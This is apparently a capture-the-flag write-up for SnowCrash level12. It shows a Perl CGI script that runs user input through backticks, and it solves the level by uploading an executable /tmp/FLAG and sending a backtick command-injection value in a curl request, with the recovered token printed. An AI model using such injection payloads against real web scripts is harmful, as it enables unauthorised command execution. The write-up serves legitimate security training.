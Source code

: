 # Level12

## Enumerate

   

    level12@SnowCrash:~$ ls
	level12.pl
	level12@SnowCrash:~$ cat level12.pl
	#!/usr/bin/env perl
	# localhost:4646
	use CGI qw{param};
	print "Content-type: text/html\n\n";

	sub t {
	  $nn = $_[1];
	  $xx = $_[0];
	  $xx =~ tr/a-z/A-Z/;
	  $xx =~ s/\s.*//;
	  @output = `egrep "^$xx" /tmp/xd 2>&1`;
	  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
	  }
	  return 0;
	}

	sub n {
	  if($_[0] == 1) {
      print("..");
	  } else {
      print(".");
	  }
	}

	n(t(param("x"), param("y")));
There is a server running on localhost 4646, and each argument is capsized and standard output has been rewritten by Stderror

## Injection

Only a script with capsized name can be used since everything is getting capsized.
Let's make one:

    level12@SnowCrash:~$ mkdir /tmp/etc
	level12@SnowCrash:~$ echo "getflag > tmp/etc/flag" > /tmp/FLAG
	level12@SnowCrash:~$ chmod +x /tmp/FLAG
	level12@SnowCrash:~$ curl localhost:4646/level12.pl?x='`/*/FLAG`'
	..level12@SnowCrash:~$ cat /tmp/etc/flag
	cat: /tmp/etc/flag: No such file or directory
	level12@SnowCrash:~$ echo "getflag > /tmp/etc/flag" > /tmp/FLAG
	level12@SnowCrash:~$ chmod +x /tmp/FLAG
	level12@SnowCrash:~$ curl localhost:4646/level12.pl?x='`/*/FLAG`'
	..level12@SnowCrash:~cat /tmp/etc/flag`'
	Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
